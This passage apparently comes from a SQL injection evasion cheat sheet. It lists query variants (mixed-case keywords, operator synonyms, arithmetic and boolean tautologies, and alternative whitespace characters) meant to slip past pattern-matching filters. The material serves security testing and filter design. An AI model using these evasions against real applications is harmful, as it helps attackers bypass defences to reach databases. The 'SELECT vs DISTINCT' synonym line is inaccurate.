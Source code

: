 #### Keyword Variation
```sql
-- Case variation
select * from users
SeLeCt * FrOm UsErS
SELECT * FROM users

-- Keyword synonyms
SELECT vs DISTINCT
WHERE vs HAVING (in specific contexts)
AND vs && (MySQL)
OR vs || (MySQL/PostgreSQL)
```

#### Mathematical Obfuscation
```sql
-- Arithmetic operations
SELECT * FROM users WHERE id=1+0
SELECT * FROM users WHERE id=2-1
SELECT * FROM users WHERE id=1*1
SELECT * FROM users WHERE id=2/2

-- Boolean arithmetic
SELECT * FROM users WHERE id=1 AND 1+1=2
SELECT * FROM users WHERE id=1 AND 0x1=1
SELECT * FROM users WHERE id=1 AND !0
```

### Manipulating White Spaces

Using various whitespace characters and techniques to evade pattern matching.

#### Alternative Whitespace Characters
```sql
-- Tab character (\t)
SELECT\tuser()\tFROM\tusers

-- New line character (\n)
SELECT\nuser()\nFROM\nusers

-- Carriage return (\r)
SELECT\ruser()\rFROM\rusers

-- Form feed (\f)
SELECT\fuser()\fFROM\fusers

-- Vertical tab (\v)
SELECT\vuser()\vFROM\vusers
```

#### Multiple Whitespace Characters
```sql
-- Multiple spaces
SELECT    user()    FROM    users

-- Mixed whitespace
SELECT\t  \n  user()\r\n  FROM\t  users

-- No spaces where possible
SELECT(user())FROM(users)WHERE(1=1)
```
